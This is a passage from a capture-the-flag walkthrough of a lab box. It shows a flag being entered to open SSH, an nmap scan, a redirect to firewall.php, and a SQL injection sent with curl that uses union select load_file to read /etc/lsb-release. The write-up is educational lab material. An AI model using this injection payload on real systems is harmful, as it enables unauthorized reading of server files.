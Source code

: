 #### Enter Flag

With the flag, I can enter it on `challenge.php`:

![image-20211119161426691](https://0xdfimages.gitlab.io/img/image-20211119161426691.png)

Where only 80 was open on initial `nmap`, now 22 is open as well:

```

oxdf@parrot$ nmap -p 22 10.10.11.128
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-19 16:14 EST
Nmap scan report for 10.10.11.128
Host is up (0.089s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds

```

Also interesting, that POST request to `challenge.php` returned a 302 redirect to `firewall.php`:

```

HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 19 Nov 2021 21:14:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /firewall.php
Content-Length: 0

```

It’s `firewall.php` that reports back that I have this access.

#### Read Files

SQL is configured with permissions to read files as well:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select load_file('/etc/lsb-release');-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"

```
